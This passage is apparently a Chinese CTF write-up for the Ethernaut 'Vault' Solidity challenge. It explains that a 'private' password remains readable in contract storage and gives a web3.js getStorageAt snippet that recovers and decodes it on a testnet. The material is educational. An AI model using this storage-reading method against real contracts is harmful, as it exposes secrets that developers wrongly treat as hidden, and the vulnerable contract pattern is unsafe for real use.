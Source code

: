 记得调用attack的时候给合约转1 wei。

# Vault

```javascript
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}

```

考察的就是Solidity中变量的可见性问题了：
[合约变量的「皇帝新衣」| 外部读取状态变量——漏洞分析连载之九期](https://blog.csdn.net/Blockchain_lemon/article/details/82836002)
虽然password设置成了private无法查看，但：

> 因为这个私有仅限于合约层面的私有，合约之外依然可以读取。

> 合约使用外界未知的私有变量。虽然变量是私有的，无法通过另一合约访问，但是变量储存进 storage 之后仍然是公开的。我们可以使用区块链浏览器（如 etherscan）观察 storage 变动情况，或者计算变量储存的位置并使用 Web3 的 api 获得私有变量值

说白了就是只要能计算出那个私有变量在storage中的位置，就直接调用Web3的api来获得那个变量值。
我不想用题目的环境直接打，尝试自己学一下web3.js，参考链接：
[web3.js 教程](https://www.qikegu.com/docs/5124)
利用infura来访问节点，记得改一下ENDPOINTS。
看一下位置，bool占用slot0，因此password在slot1，直接获得即可：

```javascript
const Web3 = require('web3');
const rpcURL = "https://rinkeby.infura.io/v3/2ab0c9f096474b2a8b7b60a25ded6c21";
const web3 = new Web3(rpcURL);


web3.eth.getStorageAt("0x40c4BfC852EdE4D3D05B0ed0886344864f4cB149", "1", function(x,y){console.info(y);})
```

得到0x412076657279207374726f6e67207365637265742070617373776f7264203a29，解码得到`A very strong secret password :)`
传过去即可解锁：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414101011450.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
